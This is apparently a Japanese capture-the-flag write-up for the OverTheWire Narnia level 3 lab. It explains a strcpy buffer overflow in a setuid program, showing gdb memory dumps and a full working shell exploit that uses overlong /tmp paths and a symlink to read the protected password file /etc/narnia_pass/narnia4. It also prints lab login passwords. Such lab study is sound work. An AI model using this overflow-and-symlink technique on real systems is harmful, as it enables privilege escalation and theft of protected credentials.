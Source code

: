 $ ssh -p 2226 narnia3@narnia.labs.overthewire.org
vaequeezee

```c
.
.
.
int  ifd,  ofd;
char ofile[16] = "/dev/null";
char ifile[32];
char buf[32];

if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
}

/* open files */
strcpy(ifile, argv[1]); <- here is buffer overflow???
.
.
.
```

strcpyした時に、ファイル名が32バイト以上ならばオーバーフローして、ofileを上書きする


### A が 32
gdb-peda$ x/10wx 0xffffbf00
0xffffbf00: 0x41414141  0x41414141  0x76656400  0x6c756e2f <- null文字(00)で/dev/nullの先頭が上書きされてしまっている
0xffffbf10: 0x0000006c  0x00000000  0x0804868b  0x00000000
0xffffbf20: 0xf7fab000  0xf7fab000


### A が 31
gdb-peda$ x/10wx 0xffffbf00
0xffffbf00:	0x41414141	0x00414141	0x7665642f	0x6c756e2f <- /dev/null
0xffffbf10:	0x0000006c	0x00000000	0x0804868b	0x00000000
0xffffbf20:	0xf7fab000	0xf7fab000



## In remote
```sh
narnia3@narnia:~$ cd /tmp/
narnia3@narnia:/tmp$ mkdir $(python -c 'print "A" * 27')
narnia3@narnia:/tmp$ cd AAAAAAAAAAAAAAAAAAAAAAAAAAA
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA$ mkdir tmp
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA$ cd tmp
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ ln -s /etc/narnia_pass/narnia4 ./hoge
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ ls -lh
total 0
lrwxrwxrwx 1 narnia3 narnia3 24 Jul  2 08:48 hoge -> /etc/narnia_pass/narnia4
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ /narnia/narnia3 $(python -c 'print "/tmp/" + "A"*27 + "/tmp/hoge"')
copied contents of /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hoge to a safer place... (/tmp/hoge)
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ cat /tmp/hoge
thaenohtai
�����4����_��}0,narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$
```

/dev/nullが書き換え可能であり、このプログラムは渡されたファイルの内容を/dev/nullにコピーするもの。

よって、/dev/nullを任意のものに書き換えて、パスワードを指すファイル名を渡す。

具体的には、

/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA <- これでnull文字だけオーバーフローしている状態。

/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hoge <- こうすると、/dev/nullが/tmp/hogeになる

さらに、/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hogeがパスワードを指すようにしたいので、/etc/narnia_pass/narnia4へのシンボリックリンクを貼る。

こうすることで、まず/dev/nullが/tmp/hogeに書き換わり、そこに/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hogeの内容、つまり/etc/narnia_pass/narnia_pass4の内容が/tmp/hogeに書き出される。

/etc/narnia_pass/narnia4はnarnia4しか読めないが、/narnia/narnia3にはsetuidが立っているので読むことができる
